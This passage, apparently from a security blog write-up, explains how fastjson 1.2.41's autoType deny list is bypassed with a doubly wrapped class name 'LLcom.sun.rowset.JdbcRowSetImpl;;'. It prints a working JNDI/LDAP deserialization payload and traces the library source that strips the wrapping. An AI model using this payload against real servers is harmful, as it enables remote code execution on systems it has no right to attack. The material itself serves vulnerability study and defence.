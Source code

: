 > Lcom.sun -> passed -> clazz name still is Lcom.sun.rowset.JdbcRowSetImpl;

Step 2:

com\alibaba\fastjson\util\TypeUtils.class

{% highlight java %}
           } else if (className.startsWith("L") && className.endsWith(";")) {
                String newClassName = className.substring(1, className.length() - 1);
                return loadClass(newClassName, classLoader);
{% endhighlight %}

> Lcom.sun -> replace -> com.sun.rowset.JdbcRowSetImpl

Bypass success.

----

#### 1.2.41

* Payload:

```
{\"@type\": \"LLcom.sun.rowset.JdbcRowSetImpl;;\", \"dataSourceName\":\"ldap://127.0.0.1:1389/w17ii2\",\"autoCommit\": true\ "}
```

- Explain:

`-` According DenyList, `com.sun` exists array, So with clazz `LLcom.sun.rowset.JdbcRowSetImpl;;` . It will have to go through some screening steps later to bypass.

Step 1:

com\alibaba\fastjson\parser\ParserConfig.class

{% highlight java %}
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                className = className.substring(1, className.length() - 1);}
{% endhighlight %}

> LLcom.sun.rowset.JdbcRowSetImpl;; -> substring -> Lcom.sun.rowset.JdbcRowSetImpl;

Step 2:

com\alibaba\fastjson\parser\ParserConfig.class

{% highlight java %}
                        if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }    
{% endhighlight %}

> Lcom.sun.rowset.JdbcRowSetImpl; -> passed -> clazz name still is Lcom.sun.rowset.JdbcRowSetImpl;

Step 3:

com\alibaba\fastjson\util\TypeUtils.class

{% highlight java %}
           } else if (className.startsWith("L") && className.endsWith(";")) {
                String newClassName = className.substring(1, className.length() - 1);
                return loadClass(newClassName, classLoader);
{% endhighlight %}
